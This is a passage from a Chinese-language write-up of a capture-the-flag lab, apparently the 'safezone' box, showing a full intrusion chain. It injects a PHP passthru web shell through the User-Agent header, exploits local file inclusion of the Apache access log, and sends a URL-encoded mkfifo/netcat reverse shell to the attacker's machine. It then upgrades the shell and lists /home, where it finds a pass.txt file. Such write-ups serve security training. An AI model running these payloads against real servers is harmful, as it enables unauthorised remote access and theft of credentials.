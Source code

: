 我们需要通过用户代理头发送一个恶意负载，并尝试使用`cmd`参数 LFI。

```
# curl -b "PHPSESSID=b1ttpdegqsltofrbcj2ko4akj2" http://10.10.X.X/detail.php -A "<?php passthru($_GET['cmd']);?>"
# curl -b "PHPSESSID=b1ttpdegqsltofrbcj2ko4akj2" [http://10.10.X.X/detail.php?page=/var/log/apache2/access.log&cmd=ls](http://10.10.X.X/detail.php?page=/var/log/apache2/access.log&cmd=ls)
....
....
10.X.X.X - - [06/Jun/2021:09:23:40 +0530] "GET /detail.php HTTP/1.1" **200 1758 "-" "dashboard.php
detail.php
index.html
index.nginx-debian.html
index.php
logout.php
news.php
note.txt
register.php
"**
10.X.X.X - - [06/Jun/2021:09:24:16 +0530] "GET /detail.php?page=/var/log/apache2/access.log&cmd=id HTTP/1.1" 200 1389835 "-" "curl/7.64.1"
....
```

现在，LFI 正在发挥作用。现在，让我们注入反向外壳。

```
# curl -b "PHPSESSID=t72mkfr54ddhp1l5rn60ft8jvd" [http://10.10.X.X/detail.php\?page\=/var/log/apache2/access.log\&cmd\=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.8.163.74%201993%20%3E%2Ftmp%2Ff](http://10.10.10.29/detail.php%5C?page%5C=/var/log/apache2/access.log%5C&cmd%5C=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f%7C/bin/sh%20-i%202%3E&1%7Cnc%2010.8.163.74%201993%20%3E/tmp/f)
```

并在本地机器上监听

```
# nc -lvnp 1993
Connection from 10.10.10.29:51346
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
$ export TERM=xtermwww-data@safezone:/var/www/html$
```

好了，现在我们可以访问服务器了。只是快速检查一下`/home`目录中可用的用户

```
# ls /home
yash files# ls -al /home/yash
ls: cannot open directory 'yash': Permission denied

# ls -al /home/files
....
....
**-rw-r--r-- 1 root  root   105 Jan 29 20:38 '.something#fake_can@be^here'
-rwxrwxrwx 1 root  root   112 Jan 29 10:24  pass.txt**
....
```
